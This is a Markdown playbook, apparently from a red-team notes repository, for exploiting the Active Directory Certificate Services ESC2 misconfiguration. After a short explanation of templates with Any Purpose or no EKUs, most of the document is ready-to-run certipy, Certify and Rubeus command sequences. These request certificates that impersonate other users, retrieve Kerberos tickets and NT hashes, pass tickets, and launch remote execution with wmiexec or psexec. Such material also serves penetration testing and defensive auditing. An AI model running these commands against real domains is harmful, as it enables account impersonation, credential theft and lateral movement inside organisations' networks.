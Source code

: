 # ESC2—Any Purpose EKU or No EKU (Subordinate CA) on Enrollable Template

## Theory

If an enrollable template has **Any Purpose** EKU (`2.5.29.37.0`) or **no EKUs at all**, the issued certificate is valid for many uses.

- **Path A (SAN allowed):** If the template also lets the enrollee supply the subject and SAN, you can request a cert that names a different user’s UPN in the SAN and authenticate as that user (same flow as ESC1).
- **Path B (no SAN):** You can still obtain a broadly valid or subordinate CA certificate. This cannot be used for AD logon via PKINIT unless its issuer is trusted in **NTAuthCertificates**, but it may be abused for other purposes (e.g., server TLS, code signing). Chaining into on-behalf-of/agent scenarios is covered under ESC3.

## Requirements

- Low-privileged principals have **Enroll** on the template.
- **Requires Manager Approval = False**.
- **Authorized Signatures Required = 0**.
- Template EKUs: **Any Purpose** or **no EKUs**.
- For **Path A** additionally: **Enrollee supplies subject** and CA allows **UserSpecifiedSAN**.

### Placeholders

`<DOMAIN>` `<FOREST_DN>` `<USER>` `<PASS>` `<DC_IP>` `<CA_FQDN>` `<CA_NAME>` `<TEMPLATE_NAME>` `<ALT_UPN>` `<ALT_SAM>` `<TARGET_HOST_FQDN>` `<PFX_FILE>`

---

## Linux

### Enumerate

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
# Look for: Any Purpose = True  OR  Extended Key Usage: Any Purpose  OR  no EKUs
# For Path A also confirm: Enrollee Supplies Subject = True and CA indicates UserSpecifiedSAN
```

### Exploit—Path A (SAN Allowed; Impersonate like ESC1)

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> \
  -ca '<CA_NAME>' -template '<TEMPLATE_NAME>' -upn '<ALT_UPN>'
# => Saves a PFX for the target identity
```

```bash
certipy auth -pfx <PFX_FILE> -username '<ALT_SAM>' -domain '<DOMAIN>' -dc-ip <DC_IP>
# => Produces <ALT_SAM>.ccache and may return NT hash
```

```bash
KRB5CCNAME=<ALT_SAM>.ccache wmiexec.py -k -no-pass <TARGET_HOST_FQDN>
# or psexec.py / smbexec.py with -k -no-pass
```

### Exploit—Path B (no SAN; broad/SubCA Cert, non-PKINIT abuse)

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> \
  -ca '<CA_NAME>' -template '<TEMPLATE_NAME>'
# Use resulting cert for non-domain-logon purposes (e.g., TLS/code signing).
# AD logon via PKINIT will not work unless the issuing CA is present in NTAuthCertificates.
```

Note: Ensure `<TARGET_HOST_FQDN>` resolves (DNS or `/etc/hosts`).

---

## Windows

### Enumerate (Certify)

```powershell
.\Certify.exe find /vulnerable
# Identify templates where:
#   pkiextendedkeyusage : Any Purpose  OR EKUs absent
#   Authorized Signatures Required : 0
#   Enrollee supplies subject (for Path A)
#   Low-privileged principals have Enroll
# Confirm CA shows UserSpecifiedSAN for Path A.
```

### Enumerate (PowerShell LDAP Filter for ESC2)

```powershell
Get-ADObject -LDAPFilter `
'(&(objectclass=pkicertificatetemplate)
  (!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))
  (|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))
  (|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' `
-SearchBase "CN=Configuration,<FOREST_DN>"
```

### Exploit—Path A (SAN Allowed; Impersonate like ESC1)

```powershell
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:<ALT_UPN> > cert.pem
```

```powershell
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 `
  -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" `
  -export -out cert.pfx
```

```powershell
.\Rubeus.exe asktgt /user:<ALT_SAM> /certificate:cert.pfx /getcredentials /nowrap
# => Base64 TGT (kirbi) and possibly NTLM hash
```

```powershell
.\Rubeus.exe createnetonly /program:powershell.exe /show
# In the shown PowerShell session:
.\Rubeus.exe ptt /ticket:<BASE64_TGT>
```

### Exploit—Path B (no SAN; broad/SubCA cert)

```powershell
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:<TEMPLATE_NAME> > cert.pem
# Convert to PFX if needed (see above). Use for non-PKINIT abuses (e.g., TLS/code signing).
# Not valid for AD logon unless issuer is trusted in NTAuthCertificates.
```

